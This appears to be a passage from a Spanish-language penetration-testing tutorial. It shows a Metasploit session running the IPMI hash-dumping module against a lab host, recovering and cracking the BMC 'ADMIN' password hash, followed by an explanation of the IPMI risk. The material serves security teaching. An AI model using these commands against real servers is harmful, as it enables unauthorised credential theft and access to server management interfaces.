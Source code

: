 ```shell-session
   PASS_FILE            /usr/share/metasploit-framework/data/wordlists/ipmi_passwords.txt  yes       File containing common passwords for offline cracking, one per line
   RHOSTS               10.129.42.195                                                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                623                                                                yes       The target port
   THREADS              1                                                                  yes       The number of concurrent threads (max one per host)
   USER_FILE            /usr/share/metasploit-framework/data/wordlists/ipmi_users.txt      yes       File containing usernames, one per line



msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run

[+] 10.129.42.195:623 - IPMI - Hash found: ADMIN:8e160d4802040000205ee9253b6b8dac3052c837e23faa631260719fce740d45c3139a7dd4317b9ea123456789abcdefa123456789abcdef140541444d494e:a3e82878a09daa8ae3e6c22f9080f8337fe0ed7e
[+] 10.129.42.195:623 - IPMI - Hash for user 'ADMIN' matches password 'ADMIN'
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Aquí podemos ver que hemos obtenido con éxito el hash de contraseña para el usuario`ADMIN`, y la herramienta pudo descifrarla rápidamente para revelar lo que parece ser una contraseña predeterminada`ADMIN`. A partir de aquí, podríamos intentar iniciar sesión en el BMC o, si la contraseña fuera algo más único, verificar si la contraseña reutiliza en otros sistemas. IPMI es muy común en los entornos de red, ya que los sysadmins deben poder acceder a los servidores de forma remota en caso de una interrupción o realizar ciertas tareas de mantenimiento que tradicionalmente habrían tenido que estar físicamente frente al servidor para completar. Esta facilidad de administración conlleva el riesgo de exponer los hash de contraseña a cualquier persona en la red y puede conducir al acceso no autorizado, la interrupción del sistema e incluso la ejecución de código remoto. La verificación de IPMI debe ser parte de nuestro libro de jugadas de prueba de penetración interna para cualquier entorno que nos encontremos evaluando.